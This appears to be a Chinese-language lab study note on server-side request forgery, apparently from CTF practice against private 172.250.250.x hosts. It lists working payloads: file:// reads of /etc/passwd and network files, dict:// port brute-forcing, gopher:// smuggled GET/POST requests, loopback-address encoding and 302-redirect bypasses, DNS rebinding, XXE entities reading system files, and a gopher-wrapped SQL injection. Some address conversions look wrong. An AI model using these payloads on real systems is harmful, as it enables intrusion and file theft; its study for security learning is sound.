



## 1.SSRF信息收集File伪协议

file:///etc/passwd 读取文件passwd

file:///etc/hosts 显示当前操作系统网卡的IP

file:///proc/net/arp 显示ARP缓存表（寻找内往下其他主机）

可以访问一个ip地址，挨个发送APR请求

file:///proc/net/fib_trie 显示当前网段路由信息

## 2.SSRF信息收集Dict伪协议

dict://167.250.250.$1$:$80$

爆破开启的端口

## 3.SSRF信息收集HTTP伪协议

http://172.250.250.1/$index$.php

爆破存在的页面

## 4.SSRF利用gopher伪协议学习

**gopher默认不提交第一位，第一位需要加上填充符**

### 1.get提交



#### 1.直接提交

构造代码：

```
GET /name.php HTTP/1.1
Host: 172.250.250.4
```

（这里会有个换行）

将头部内容URL编码

gopher://172.250.250.4:80/_GET%20/name.php%3fname=benben%20HTTP/1.1%0d%0AHost:%20172.250.250.4%0d%0A

#### 2.BurpSuite抓包

提交：gopher://172.250.250.4:80/_

BurpSuite抓包：

把构造的代码粘贴在url后面，做两次URL编码进行提交



### 2.post提交

需要保留的头部信息：

```
POST /name.php HTTP/1.1
Host: 172.250.250.4
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

name=jianjian
```

（构造代码）

BurpSuite抓包进行两次URL编码然后上传

## 5.SSRF回环地址的绕过

http://127.0.0.1/flag.php被过滤

将127.0.0.1转换为其他进制

八进制 ：177000000001或点分式：0177.0000.0000.0001

十六进制0x4F000001

十进制2130706433

## 6.SSRF之302重定向绕过

对本地地址或者内网地址有过滤

访问公网服务器ip，公网下存在index.php

index.php的内容

<?php

header('Location:http://127.0.0.1/flag.php')


访问公网下的index.php相当于访问127.0.0.1/flag.php

## 7.SSRF之DNS重绑定绕过

https://lock.cmpxchg8b.com/rebinder.html

TTL最理想的设置为0，在第一次解析之后，立马换成我们想要访问的DNS服务器，有概率成功

http://DNS域名/flag.php

## 8.SSRF进行XXE漏洞利用

### XXE漏洞

```xml
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

### 利用SSRF进行XXE漏洞

使用gopher伪协议

需要注意的是post提交的是哪个页面，有可能不是index.php

```xml
POST /doLogin.php HTTP/1.1
Host: 172.250.250.6
contentType: application/xml;charset=utf-8
Content-Length: 131

<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///etc/passwd"> ]><user><username>&admin;</username><password> admin</password></user> 
```

## 9.SSRF进行SQL注入

使用<font color=Red>--%20</font>>注释

使用hackbar提交时会对已经输入的内容进行一次URL编码,把%20替换成%2520

SSRF需要两次URL编码 



### gopher提交

```xml
gopher://172.250.250.11:80/_POST /Less-11/index.php HTTP/1.1
HOST:172.250.250.11
Content-Type:application/x-www-form-urlencoded
Content_Length: 53
Uname=-1' union select 1,2 #&passwd=123&submit=Submit
```

## 10.SSRF进行文件上传漏洞

